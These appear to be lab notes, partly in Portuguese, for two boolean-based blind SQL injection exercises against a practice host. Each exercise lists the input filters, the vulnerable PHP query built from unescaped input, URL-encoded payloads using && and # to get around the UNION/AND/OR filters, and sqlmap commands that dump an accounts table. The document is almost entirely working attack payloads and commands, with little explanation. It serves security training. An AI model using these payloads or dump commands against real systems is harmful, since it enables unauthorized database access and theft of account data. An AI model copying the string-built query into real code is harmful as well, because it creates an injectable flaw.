 * UNION filtrada
* filtro simbólico (AND && , OR)

```bash
Filters:
/UNION/i
/\ AND\ /i

Query:
$query = "SELECT views FROM attachments where filename='$entry';";


# POCs

# (%26) == &
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='123
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='1

# using true (1) and false (0)booleans
# (%23) == #
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+TRUE;%23
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+FALSE;%23


# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you04 -T accounts --dump

```

### 5 - Boolean-based blind

* UNION filtrada
* Filtro simbólico (AND && , OR .)

```bash
Filters:
/UNION/i
/\ AND\ /i
/\ OR\ /i

Query;
$query = "SELECT views FROM attachments where filename='$entry';";


POCs:
# same as #4 but with filter that applies to OR too 
# (%7C) == |

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you05 -T accounts --dump 

```

